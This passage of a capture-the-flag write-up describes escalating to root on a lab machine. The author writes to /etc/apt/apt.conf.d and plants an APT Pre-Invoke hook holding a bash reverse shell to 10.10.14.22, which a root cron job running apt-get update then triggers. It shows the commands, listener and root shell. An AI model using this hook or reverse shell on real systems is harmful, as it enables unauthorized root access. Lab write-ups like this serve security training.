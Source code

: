 
## APT update
Checking for groups again we see that john is in the management group which can write to the `/etc/apt/apt.conf.d` directory.

```
john@writer:~$ id
uid=1001(john) gid=1001(john) groups=1001(john),1003(management)
john@writer:~$ find /  -group management -ls 2>/dev/null
    17525      4 drwxrwxr-x   2 root     management     4096 Jul 31 21:56 /etc/apt/apt.conf.d
```

Checking for running processes there is a cronjob running with apt-get update. This means we can place a `apt::Update::Pre-Invoke` command inside the `/etc/apt/apt.conf.d` and achieve RCE this way.

```
john@writer:~$ ps -eaf --forest
UID          PID    PPID  C STIME TTY          TIME CMD
root           2       0  0 19:00 ?        00:00:00 [kthreadd]
root           3       2  0 19:00 ?        00:00:00  \_ [rcu_gp]
...[snip]...
root       84603     999  0 21:56 ?        00:00:00  \_ /usr/sbin/CRON -f
root       84612   84603  0 21:56 ?        00:00:00      \_ /bin/sh -c /usr/bin/apt-get update
...[snip]...
```

First we create a Pre-Invoke command containing a reverse shell.

`000evil`
```
apt::Update::Pre-Invoke {"bash -c 'bash -i >& /dev/tcp/10.10.14.22/7575 0>&1'"};
```

We then set up a ncat listener on the port we specified.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Copy the file to `/etc/apt/apt.conf.d/`.

```
john@writer:~$ cp 000evil /etc/apt/apt.conf.d/
```

And after some time we recieve a reverse shell back on our listener as the root user.  Now we are able to add the flag to our collection.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.182.107.
Ncat: Connection from 10.129.182.107:37952.
bash: cannot set terminal process group (5953): Inappropriate ioctl for device
bash: no job control in this shell
root@writer:/tmp# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
root@writer:/tmp#
```
